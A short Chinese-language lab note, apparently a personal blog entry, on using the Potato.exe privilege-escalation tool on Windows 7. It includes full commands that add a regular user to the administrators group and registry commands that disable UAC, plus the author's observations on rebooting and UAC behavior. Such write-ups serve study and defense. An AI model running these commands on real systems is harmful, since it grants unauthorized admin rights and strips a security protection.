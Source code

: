 我第一次使用時:

這兩個 payload 都不成功。
```

//假設你已經拿到一般使用者 test123456 你把他加入到 amdinistrators 組
Potato.exe -ip 192.168.43.217 -cmd  "C:\\Windows\\System32\\cmd.exe /c net localgroup administrators test123456 /add" -disable_exhaust false 


Potato.exe -ip 192.168.43.217 -cmd  "C:\\Windows\\System32\\cmd.exe /k net localgroup administrators test123456 /add" -disable_exhaust true 

```


但隔天重開電腦後，又可以成功了。(不知道啥原因)，可能是 windows update之類的?



成功後還有一些問題，你即使看了 test123456 屬於 administrators 組，不過在還沒重新啟動之前，他test123456是沒有任何作用的，你不能夠添加新的使用者。


但你可以關閉UAC。(關閉後也需要重新啟動)。
關於這點我也覺得很奇怪，一般使用者真的能隨隨便便關閉他嗎

```
關閉UAC cmd：
reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f


開啟UAC cmd：
reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 1 /f
```


為啥關閉UAC 如果你不關的話，你重開機雖然是 administrator 組，但你需要申請UAC 給你權限(也就是右鍵 run as administrator)，這在rdp 的方式下很簡單，但在拿到shell的情況下可就麻煩了，(我沒有特別研究 cmd 怎樣 run as administrator 通過UAC )。

我是有使用 runas test123456 之類的指令，但還是無法通過UAC 導致無法 add user，所以最好的方法就是關閉他。



以上實驗是在win 7 執行的
總結一下UAC 的問題:

1.普通user 可以關閉(這很好，但也很奇怪UAC 是可以被任何人關的嗎???)

2.即使你提權讓目前的使用者到administrators組，需要重開機才能具備跟UAC申請的資格，但不知道cmd 怎用UAC申請，所以乾脆關了，就沒那麼多煩惱。














